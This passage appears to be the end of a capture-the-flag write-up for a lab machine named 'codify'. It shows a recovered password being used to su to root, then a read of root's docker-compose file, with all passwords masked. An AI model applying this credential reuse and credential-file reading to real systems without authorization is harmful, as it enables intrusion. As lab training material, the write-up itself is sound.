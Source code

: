 ```python

print("Password found: {}".format(password))
```

```bash
joshua@codify:~$ python3 t
...
Password found: **************
```

Turns out that password is root password:
```bash
joshua@codify:~$ su
Password:
root@codify:/home/joshua# id
uid=0(root) gid=0(root) groups=0(root)
root@codify:/home/joshua#
```

Finally, lol:
```bash
root@codify:/home/joshua# cat /root/scripts/docker/docker-compose.yml
version: '3.9'
services:
  db:
    image: mariadb:10.10
    restart: unless-stopped
    environment:
      MYSQL_DATABASE: "tickets"
      MYSQL_USER: "migrate"
      MYSQL_PASSWORD: "**************"
      MARIADB_ROOT_PASSWORD: "**************"
      MYSQL_ROOT_HOST: "127.0.0.1"
    ports:
      - 127.0.0.1:3306:3306
    volumes:
      - database_volume:/var/lib/mysql

volumes:
  database_volume:
```

## TODOs
- ?
